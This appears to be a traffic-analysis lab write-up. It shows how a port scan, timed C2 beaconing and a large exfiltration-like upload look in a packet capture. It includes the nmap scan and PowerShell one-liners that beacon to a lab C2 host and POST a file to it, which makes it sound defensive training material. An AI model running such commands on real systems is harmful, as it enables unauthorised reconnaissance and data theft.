



# LAB 14 — Suspicious Patterns: Scan, Beaconing and Exfiltration

`Module 03 — Traffic Analysis` · `nmap · HTTP · Wireshark · tcpdump` · `Date: 2026-11-26/27` · `Status: Complete`

## Objective

Recognise three common attack behaviours from the **shape** of the traffic alone, without relying on its content:

1. A port scan.
2. Beaconing: an implant checking in with its command-and-control (C2) server at a fixed interval.
3. An exfiltration-like upload.

In real incidents the content is usually encrypted (see LAB 13). What remains is who talked to whom, when, how often and how much. This lab trains the eye on exactly that.

## Repository contents

| Path | Content |
|---|---|
| `README.md` | This write-up |
| `site/central.py` | Lab-only fake C2 server: answers `/beacon`, receives `/upload` and prints only its size and SHA-256 (nothing is stored) |
| `screenshots/` | SYN scan filter, beacon intervals, Conversations table |
| `evidence/lab14-suspeito.pcap` | The capture (2,368 packets, 16 min, lab-only addresses) |
| `evidence/SHA256SUMS` | SHA-256 of the capture |

Everything ran between two VMs on the isolated host-only network. The "malware" is a PowerShell loop and the "stolen" file is random bytes.

---

## 1. Setup

| Role | Machine | What runs |
|---|---|---|
| Attacker and C2 | Kali `192.168.56.102` | `nmap`; `site/central.py` on TCP **8081** |
| Victim | Windows 10 VM `192.168.56.101` | Windows Firewall on (default); PowerShell 5.1 as the fake implant |
| Capture | Kali `eth1` | `tcpdump`, only traffic between the two VMs |

```console
# Kali, terminal 1: the fake C2
mkdir -p ~/lab14 && cd ~/lab14
wget -q https://raw.githubusercontent.com/phvaz/network-defense-traffic-investigation-lab/main/module03-traffic-analysis/lab14-suspicious-patterns/site/central.py
python3 central.py

# Kali, terminal 2: the capture
cd ~/lab14
sudo -v
sudo tcpdump -i eth1 -w ~/lab14/lab14-suspeito.pcap host 192.168.56.101 and host 192.168.56.102 > /dev/null 2>&1 &
```

The three behaviours were then produced in order:

```console
# 1. Port scan (Kali)
sudo nmap -sS -p 1-1000 192.168.56.101
```

```powershell
# 2. Beaconing (Windows): 12 check-ins, 10 s apart
1..12 | ForEach-Object { Invoke-WebRequest -Uri http://192.168.56.102:8081/beacon -UseBasicParsing | Out-Null; Start-Sleep -Seconds 10 }

# 3. Exfiltration-like upload (Windows): 5 MiB of random bytes
$b = New-Object byte[] (5MB); (New-Object Random).NextBytes($b)
[IO.File]::WriteAllBytes("$env:USERPROFILE\Desktop\backup-clientes.bin", $b)
Get-FileHash $env:USERPROFILE\Desktop\backup-clientes.bin
Invoke-WebRequest -Uri http://192.168.56.102:8081/upload -Method Post -InFile $env:USERPROFILE\Desktop\backup-clientes.bin -UseBasicParsing | Out-Null
```

---

## 2. Key concepts

| Term | Definition |
|---|---|
| **SYN scan (half-open)** | Sends only the first handshake packet to each port and reads the reply |
| **open / closed / filtered** | Port answers `SYN/ACK` / answers `RST` / no answer at all (dropped by a firewall) |
| **C2 (command and control)** | The attacker's server that an implant contacts for instructions |
| **Beaconing** | Periodic check-ins from an implant to its C2 |
| **Exfiltration** | Moving data out of the victim's network |
| **Upload/download ratio** | Bytes sent vs bytes received in a conversation |
| **Conversations** | Wireshark statistics table: bytes and packets per conversation, per direction |

---

## 3. Preserving the evidence

```console
$ sudo pkill tcpdump
[1]  + done       sudo tcpdump -i eth1 -w ~/lab14/lab14-suspeito.pcap host 192.168.56.101 and host 192.168.56.102
$ wait %1
wait: %1: no such job
$ ls -l lab14-suspeito.pcap
-rw-r--r-- 1 tcpdump tcpdump 5328152 Nov 26 21:20 lab14-suspeito.pcap
$ sha256sum lab14-suspeito.pcap | tee SHA256SUMS
39a8cca72b1628d72699b52b8461247a3a0e453fefdc11552bf25c2f0be25f71  lab14-suspeito.pcap
```

`wait: no such job` is not an error here. The shell had already reported job 1 as `done`, so `tcpdump` had exited and flushed the file before the hash was taken. The copy on the analysis host was verified with `sha256sum -c` → `OK`.

---

## 4. Timeline of the capture

Capture window: 2026-11-26 21:02:15 to 21:18:17 UTC, 2,368 packets.

| Time (UTC) | Frames | Event |
|---|---|---|
| 21:02:15.43 | 1–2 | ARP: Kali asks who has `.101` (nmap host discovery on the local segment) |
| 21:02:15.49 – 21:02:37.76 | 3–2002 | **Port scan:** 2,000 SYNs to ports 1–1000, no reply from the target |
| 21:07:31 – 21:09:23 | 2003–2124 | **Beaconing:** 12 HTTP check-ins to `:8081/beacon`, about 10.2 s apart |
| 21:17:28.86 | 2125 | Upload connection opened (client port 49828) |
| 21:18:11.86 – 21:18:12.34 | 2130–2368 | **Upload:** 5,242,880-byte POST to `:8081/upload`, server answers `200 ok` |

---

## 5. Part A — Port scan

Filter `tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == 192.168.56.101` (connection attempts towards the victim):



| Measure | Value |
|---|---|
| SYN packets to the victim | **2,000** (84.5 % of the capture) |
| Distinct destination ports | 1,000, each probed **twice** |
| Source ports | `39740` (first pass), `39742` (second pass) |
| Rate | about 90–100 SYN per second over 22.3 s |
| Replies from the victim (`SYN/ACK` or `RST`) | **0** |
| SYN fingerprint | `Win=1024`, single option `MSS=1460` |

**Observed:** one source, a thousand destination ports, in seconds. Frames 3–12 and 13–22 probe the same ten ports (135, 110, 554, 587, 22, 199, 445, 993, 111, 25) about 1.1 s apart, from a different source port. Nothing came back.

**Interpretation:**

- The pattern is consistent with a SYN port scan. The repeat pass is nmap retrying ports that gave no answer.
- The total silence is consistent with the Windows Firewall dropping inbound probes. nmap reported all 1,000 ports as `filtered`. A closed port without a firewall would have answered `RST`, and an open one `SYN/ACK`.
- The scan found nothing, but it is fully recorded. A failed attempt is still evidence of intent.
- A SYN window of 1024 with only the MSS option is typical of nmap's raw SYN packets. Real operating systems send a larger window and several options, so IDS rules use this as a scanner indicator.

---

## 6. Part B — Beaconing

Filter `frame contains "GET /beacon"`, then **View → Time Display Format → Seconds Since Previous Displayed Packet** (`Ctrl+Alt+6`):



| Measure | Value |
|---|---|
| Check-ins | 12, each on a **new TCP connection** (client ports 49811–49823) |
| Interval between requests | **10.15 – 10.22 s** |
| Size of each conversation | 10 packets, 896 bytes (470 out, 426 back), identical for all 12 |
| Request | `GET /beacon`, `User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; pt-BR) WindowsPowerShell/5.1.19041.7844` |
| Reply | `200`, body `sleep` |

The C2 log on Kali matched the capture second by second:

```text
21:07:31 beacon de 192.168.56.101
21:07:41 beacon de 192.168.56.101
...
21:09:23 beacon de 192.168.56.101
```

**Observed:** a metronome. Same destination, same size, same interval, twelve times.

**Interpretation:**

- The regularity is consistent with an automated check-in, not with a person browsing.
- The interval is 10 s of sleep plus about 0.2 s for each request, so the drift accumulates (:31, :41, :51, :01, :11, :22...).
- The `WindowsPowerShell` User-Agent points at a script rather than a browser. Like every header, it is written by the client and can be faked.
- **Limit:** periodic traffic is not malicious by itself. Software updates, mail sync and monitoring agents also call home on a timer. Regularity is a lead that justifies looking at the destination, not a verdict. Real implants add random jitter to hide the rhythm.

---

## 7. Part C — Exfiltration-like upload

**Statistics → Conversations → TCP**, sorted by Bytes:



| Conversation | Packets | A → B (victim → C2) | B → A (C2 → victim) |
|---|---|---|---|
| `.101:49828 → .102:8081` (upload) | 240 | **5 MB** | **6 kB** |
| Each beacon (12×) | 10 | 470 bytes | 426 bytes |
| Each scan probe (2,000×) | 1 | 58 bytes (Kali → Windows) | 0 bytes |

The tab title `TCP · 2013` is the whole story in one number: 2,000 probes, 12 beacons and 1 upload.

Integrity of the transfer:

| Side | Size | SHA-256 |
|---|---|---|
| Windows, before sending (`Get-FileHash`) | 5,242,880 B | `B04E53CB40D10F02F43A5448EE87D1B9DDFE9A9150D109BBFAA9F29423F4BBAF` |
| C2 on Kali, as received | 5,242,880 B | `b04e53cb40d10f02f43a5448ee87d1b9ddfe9a9150d109bbfaa9f29423f4bbaf` |

**Observed:** about 850 times more data leaving the victim than coming back, to the same host and port that had been receiving beacons.

**Interpretation:**

- The volume and direction are consistent with data being pushed out of the victim. The identical hashes on both ends show the file arrived complete.
- On its own, a large upload is not proof of theft: cloud backup, file sharing and video calls also send more than they receive.
- What raises the weight here is the combination: a large outbound transfer, to a non-standard port, on a host that already showed beaconing.

**Two details in the timing:**

- The connection was opened at 21:17:28.86. The first byte of the request only left 43 s later, then the 5 MiB crossed in about 0.5 s. The delay happened on the client before sending, not in the network. This is consistent with PowerShell 5.1 preparing the request, but the capture alone cannot say what the client was doing.
- **The capture is incomplete.** Three segments of the upload (frames 2246, 2261, 2334; 221,920 bytes, about 4 %) are missing, so Wireshark marks them "previous segment not captured". There are no retransmissions, and the server received the full file (hash match), so the data did cross the network. The gap is on the capture side: `tcpdump` did not record some very large segments arriving in a burst. This repeats the LAB 11 lesson: what the capture saw is not always everything that passed. It also means this file **could not** be rebuilt from the capture with Export Objects, unlike LAB 12.

---

## 8. Findings

| # | Finding | Confidence |
|---|---|---|
| 1 | `192.168.56.102` ran a SYN scan of ports 1–1000 on `192.168.56.101` from 21:02:15 to 21:02:37 UTC; no port answered | High: 2,000 SYNs, 0 replies, frames 3–2002 |
| 2 | The victim's firewall dropped the probes silently (ports `filtered`) | High: no `RST` or `SYN/ACK` in the capture; nmap output agrees |
| 3 | `192.168.56.101` checked in with `192.168.56.102:8081` 12 times at about 10.2 s intervals, by a PowerShell client | High for the pattern; the User-Agent is client-controlled |
| 4 | 5,242,880 bytes were sent from `.101` to the same C2 host and port at 21:18:12 UTC; the copy received is identical to the original | High: Conversations table and matching SHA-256 on both ends |
| 5 | The capture is missing about 4 % of the upload's bytes | High: 3 gaps, no retransmissions, receiver hash intact |

---

## 9. Key takeaways

- **Behaviour is visible even when content is not.** Scan, beacon and exfiltration were all identified from counts, timing, sizes and direction.
- **A scan leaves a fan-shaped footprint:** one source, many destination ports, seconds, almost no completed handshakes.
- **Silence is also an answer.** `filtered` (no reply) and `closed` (`RST`) tell different stories about the target's defences.
- **Beacons are betrayed by their regularity,** but regularity alone is not malice. It is a reason to investigate the destination.
- **Direction matters as much as volume.** Workstations normally download more than they upload; the reverse deserves a look.
- **Context turns signals into a case.** Each pattern alone has innocent explanations; the same host showing all three in sequence does not.
- **Know the limits of your capture.** A capture can miss packets the network delivered; check for gaps before claiming completeness.

---

## Reproduce / verify

```console
cd evidence
sha256sum -c SHA256SUMS        # lab14-suspeito.pcap: OK
```

In Wireshark:

- Scan: `tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == 192.168.56.101` → 2,000 packets.
- Beacons: `frame contains "GET /beacon"` + `Ctrl+Alt+6` → 12 packets, about 10.2 s apart.
- Upload: Statistics → Conversations → TCP, sort by Bytes.
- Capture gaps: `tcp.analysis.lost_segment` → 3 packets.

**References:** RFC 9293 (TCP), Nmap Reference Guide (port scanning techniques), MITRE ATT&CK T1046 (Network Service Discovery), T1071.001 (Application Layer Protocol: Web Protocols), T1041 (Exfiltration Over C2 Channel).
